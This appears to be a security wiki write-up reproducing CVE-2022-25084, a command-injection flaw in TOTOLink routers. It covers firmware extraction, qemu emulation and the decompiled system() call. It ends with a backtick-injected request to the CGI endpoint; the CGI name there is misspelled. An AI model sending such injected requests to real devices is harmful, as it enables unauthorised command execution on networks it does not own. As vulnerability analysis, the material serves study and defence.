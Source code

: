 # TOTOLink Multiple Devices Download.cgi Remote Command Execution Vulnerability CVE-2022-25084

## Vulnerability Description

TOTOLink Multiple Devices Download.cgi file has a remote command execution vulnerability. Attackers can obtain server permissions by constructing special requests.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">TOTOLink Multiple Devices</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"totolink"</span>

## Vulnerability reappears

Download router firmware

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1648907409606-0704b8c0-aa5c-44d4-9d45-9fd1c0c62736.png)

Use binwalk to break down firmware

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1648907425761-dabc39f3-ac5e-483c-b446-4e7a3883afec.png)

View the broken down file

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1648907514313-7f8d3965-8435-484d-b67d-b04aae2da33e.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1648907561137-36b56f40-cc42-4c25-b53a-74554b0e5fa7.png)

Use qemu to build a router

```php
#set network
sudo brctl addbr virbr2
sudo ifconfig virbr2 192.168.6.1/24 up
sudo tunctl -t tap2
sudo ifconfig tap2 192.168.6.11/24 up
sudo brctl addif virbr2 tap2

qemu-system-mipsel -M malta -kernel vmlinux-3.2.0-4-4kc-malta -hda debian_wheezy_mipsel_standard.qcow2 -append "root=/dev/sda1" -netdev tap,id=tapnet,ifname=tap2,script=no -device rtl8139,netdev=tapnet -nographic
```

After creation, execute commands in qemu to start the router

```php
ifconfig eth0 192.168.6.11 up 
scp -r squashfs-root/ root@192.168.6.11:/root/    	
chroot ./squashfs-root/ /bin/sh
touch /var/run/lighttpd.pid
./bin/lighttpd -f ./lighttp/lighttpd.conf -m ./lighttp/lib
```

Note that the `lighttpd.conf` file needs to be modified with the `server.pid-file` parameter

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1648908009576-87dcb518-213e-49cf-9a00-9f3c4d90e955.png)

Access the router page after startup

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1648912800395-a085fc01-e97b-4044-bc06-fc5f894928f5.png)

We found the file directory to be analyzed `squashfs-root/web_cste/cgi-bin`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1648909334138-f28cf393-17e6-48a8-80f0-7a5288419e78.png)

Analyze cgi files using Ghidra `downloadFile.cgi`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1648910386798-e04871ca-ff36-4843-bb3d-2f382c078ed4.png)

We noticed that the system executes the command

```php
pcVar1 = getenv("QUERY_STRING");
memset(acStack1424,0,0x200);
memset(acStack912,0,0x200);
sprintf(acStack1424,"echo QUERY_STRING:%s >/tmp/download",pcVar1);
system(acStack1424);
```

where getenv gets the parameters from the requested Url, passes them to pcVar1, and then assigns the value to acStack1424 through the following sprintf. Use the system function to execute the command.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1648910646489-cfd02a84-6b04-4fb4-a4fa-dd3e007c045a.png)

We construct the request package control QUERY_STRING parameter to perform malicious command execution

```php
/cgi-bin/downloadFlile.cgi?payload=`ls>../cmd.txt`
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1648912604072-692cfff6-164e-4724-9a10-f89b3b62dc79.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1648912691525-e03b2fc4-4cf4-46d7-a379-e31a80d0f2d6.png)